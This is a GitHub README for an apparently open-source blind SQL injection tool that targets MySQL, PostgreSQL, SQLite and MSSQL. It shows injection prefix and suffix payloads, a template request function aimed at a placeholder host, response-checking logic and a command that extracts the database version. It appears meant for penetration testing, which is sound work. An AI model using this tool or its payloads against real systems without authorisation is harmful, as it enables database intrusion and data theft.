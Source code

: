 # MySQLi
**Time** and **Boolean** based SQLi for **MySQL**,  **PostgreSQL**, **SQLite** and **MSSQL**  

![screenshot](https://github.com/physics-sp/MySQLi/blob/main/demo.png?raw=true)

## Features
- It allows you to have more control over the attack. You can handle logouts, CSRF tokens, and other tricky scenarios in which [sqlmap](https://github.com/sqlmapproject/sqlmap) doesn't work.
- It uses Binary search to increase speed
- Supports multiple types of databases _(MSSQL only supports Boolean based)_

## Usage
You can set strings that go before and after the query and the sleep time if Time based if being used
```python
PRE = "' OR"
POST = '--'
sleep_time = 2
```
Re-define the `send_req` function.
```python
def send_req(payload):
    #print(payload)
    params = {}
    cookies = {}
    headers = {}
    data = {'pwn': payload}
    proxies = {}
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    url = 'http://10.10.10.10/index.php'
    r = requests.post(
        url,
        params=params,
        data=data,
        headers=headers,
        verify=False,
        proxies=proxies,
        allow_redirects=False,
        cookies=cookies
    )
    return r
```
Optionally, you might want to re-define the `check_if_true` function to customize the detection of "true" and "false" queries.  
The _compare_value_ variable is the minimum response time of "true" queries in Time based and the Content-Length of "true" queries if Boolean based.
```python
def check_if_true(sqlitype, r, time_elapsed):
    if sqlitype == 'time':
        return time_elapsed >= compare_value
    else:
        # checking the content length is good enough for most cases
        return int(r.headers['Content-Length']) == compare_value
```

Finally, run it specifying the database type, the SQL injection type and the query.
```bash
./MySQLi.py --database mysql --type boolean --query "select version() as leak"
```

## TODO
- Add Time based to MSSQL
- Add more DBs
- Add threads
